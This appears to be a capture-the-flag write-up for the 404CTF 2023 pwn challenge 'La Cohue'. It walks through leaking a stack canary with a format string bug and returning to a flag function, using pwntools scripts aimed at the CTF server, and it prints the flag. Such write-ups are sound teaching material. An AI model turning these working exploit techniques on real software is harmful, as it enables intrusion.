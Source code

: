```yaml
---
title: CTFs | 404CTF2023 | La-Cohue
author: Kaiba_404
date: 2023-06-07
categories: [CTFs, 404CTF2023, La-Cohue]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/lacohue
---
```



# La Cohue


![la_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a853e57b-5ee3-429a-ae13-2eced0433113)

The challenge gives us an ELF file [la_cohue](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/la_cohue). Using the command `file la_cohue` and `checksec la_cohue` to get some infomations about it.

```bash
$ file la_cohue 
la_cohue: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=56ad00dfd261c3bad8d131b25708d9c7e861ccda, not stripped
```
```bash
$ checksec la_cohue
[*] '~/404CTF/la_cohue'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
From the provided commands output, we can gather some interesting information about the file. It is identified as an "ELF 64-bit" file and it appears to be "not stripped". It's protected by `NX` (We can't run the shellcode by injecting it into the stack) and `Canary found` (That is to say that this file has canary in the stack when executing). To further analyze the file and gather more information for potential exploitation, we can utilize Ghidra, a powerful reverse engineering tool. Ghidra will allow us to read and analyze the file, providing deeper insights into its structure and functionality.

![main_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a080a22c-87ff-48f0-ac23-75ecc80ecebe)

The `main` function isn't all that interesting, so we'll take a look at the `choice` function.

![choice_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/33f91c60-1caa-4d1f-ab0e-c82c4092e87f)

Based on the information available, it appears that the mentioned function is vulnerable to two specific types of attacks: Format String Vulnerability and Return-Oriented Programming (ROP) as shown in the images below.

***Format String Vuln***

![fmt_str](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/b0d89299-f5fa-44c8-b836-2d209ec44009)

***ROP***

![size_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/250fc6be-ba32-4ca3-b70e-06c9cb5bc0da)

![ROP_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/1defc0f7-8d3b-490f-a4d1-34546889814a)

We also find a very interesting function in this ELF file. It's the `canary()` function. When invoked, this function will provide us with the flag. It suggests that calling this specific function is crucial to obtaining the desired flag.

![canary_func](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6e9577e4-982e-4e1b-939e-0b39e4e82c04)

## Exploit Scenario

**Step 1**: Taking advantage of the Format String vulnerability to leak `canary` (Canary is an 8 byte hexa number that always ends with two zeros and the rest of the numbers change randomly each time we execute the  ELF file)

**Step 2**: After successfully leaking the canary value, we can proceed to bypass the canary binary protection. We have identified that the ELF file lacks Position Independent Executable (PIE) protection, meaning that the address of each instruction remains the same every time the program is launched. Leveraging this knowledge, we can employ Return-Oriented Programming (ROP) techniques.

To call the canary() function using ROP, we can construct a payload with the following format:

`payload = 'A'*72 + canary + 'B'*8 + address_of_canary_function
`

## Code 

### fuzz.py - leak canary

```python
from pwn import *

context.update(arch="amd64", os="linux")

# r = process("./la_cohue")
r = remote("challenges.404ctf.fr", 30223)

r.recvuntil(b">>>")
r.sendline(b'2')
p_A = b""
p50_p = b" %p" * 20
r.sendline(p_A + p50_p)
r.recvuntil(b"[Vous] : ")
result = str(r.recvline()).split(' ')
for i in range(len(result)):
	print("[" + str(i) + "]: " + result[i])
	
r.close()
```

```bash
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[0]: b'
[1]: 0x7ffce2c08980
[2]: 0x7f88d94cf8c0
[3]: (nil)
[4]: 0x9
[5]: 0x7f88d94cf8d0
[6]: (nil)
[7]: 0x20000e760
[8]: 0x2520702520702520
[9]: 0x2070252070252070
[10]: 0x7025207025207025
[11]: 0x2520702520702520
[12]: 0x2070252070252070
[13]: 0x7025207025207025
[14]: 0x2520702520702520
[15]: 0xa70252070
[16]: 0x7ffce2c0b0a0
[17]: 0x3ac7b7ded693ef00
[18]: 0x7ffce2c0b0a0
[19]: 0x400b06
[20]: 0x7ffce2c0b188\n'
[*] Closed connection to challenges.404ctf.fr port 30223
```

After running the file multiple times, we have observed that the canary is located at position [17]. Based on this information, we can construct the exploit program as follows:

```python
from pwn import *

context.arch = "amd64"
context.os = "linux"
# context.binary = "./la_cohue"

# p = process("./la_cohue")
p = remote("challenges.404ctf.fr", 30223)

p.recvuntil(b">>>")
p.sendline(b"2")
p.sendline(b'%17$p')
re_cana = p.recvuntil(b'Que')[9:-5]
canary = int(re_cana.decode(),16)
log.success(f'Canary: {hex(canary)}')


p.recvuntil(b">>>")
p.sendline(b'1')
p.recv()
p.sendline(b'A'*72+p64(canary)+b'B'*8+p64(0x400877))
p.recv()
p.sendline(b'3')
print(p.recvall().decode())
```

```
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[+] Canary: 0x5daaac6def037000
[+] Receiving all data: Done (321B)
[*] Closed connection to challenges.404ctf.fr port 30223
[Francis] : Je vous laisse mettre votre plan à éxécution.

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>> Je vous suis infiniment reconnaissant d'avoir retrouvé mon canari.
404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}
```


**Flag:** `404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}`